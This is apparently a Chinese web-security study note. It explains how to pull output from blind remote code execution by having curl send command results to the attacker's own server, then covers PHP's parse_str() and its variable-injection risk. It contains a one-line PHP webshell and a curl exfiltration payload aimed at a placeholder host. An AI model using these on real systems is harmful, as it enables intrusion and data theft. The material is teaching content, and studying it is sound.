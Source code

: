 ## CURL带出命令执行结果

无回显的RCE有多种解决方法，此处写一下使用`CURL`带出命令。

`CURL`是一个命令行的`web`数据包工具，功能还比较强大，有空可以专门来写一下`CURL`用法。

这里咱们写一下怎么使用`CURL`带出命令的执行结果。

我们在被攻击机器上写一个无回显的命令执行脚本`shell.php`：

```php
<?php
    shell_exec($_GET[1]);
```

此时我们可以用`http://xxx/shell.php?1=`的方式执行任意无回显的命令。

用`CURL`命令怎么让结果显示出来捏？

先上`payload`：

```php
?1=curl http://yyy?p=`pwd`
```

说明一下，`http://yyy`是我们自己的服务器，需要能看到日志，没有的话可以用[这个](https://requestbin.net/)。

`payload`里面的那个`p`随便什么都可以。

传入这个`payload`后，在`php`里会先执行反引号包裹的`pwd`，这样假如说当前路径是`/app`，那么`curl`其实真正访问的是：

```bash
curl http://yyy?p=/app
```

这样我们查看被访问机器里面的日志，就可以看到结果了。

![image-20221011155322021](https://ltfallpics.oss-cn-hangzhou.aliyuncs.com/images/202210111553378.png)

这里需要注意，带入的数据长度是有限的。因此可以采取`grep`到关键数据或者限定长度的方式来带出数据。

## parse_str()

```php
parse_str(string $string, array &$result): void
// 如果 string 是 URL 传递入的查询字符串（query string），则将它解析为变量并设置到当前作用域（如果提供了 result 则会设置到该数组里 ）。从PHP8.0开始，$result参数是强制的。
```

示例：

```php
<?php
$str = "first=value&arr[]=foo+bar&arr[]=baz";
// 注意，不需要带引号什么的

// 带第二个参数，推荐
parse_str($str, $output);
echo $output['first'];  // value
echo $output['arr'][0]; // foo bar
echo $output['arr'][1]; // baz

// 不带第二个参数，容易被攻击
parse_str($str);
echo $first;  // value
echo $arr[0]; // foo bar
echo $arr[1]; // baz
?>
```
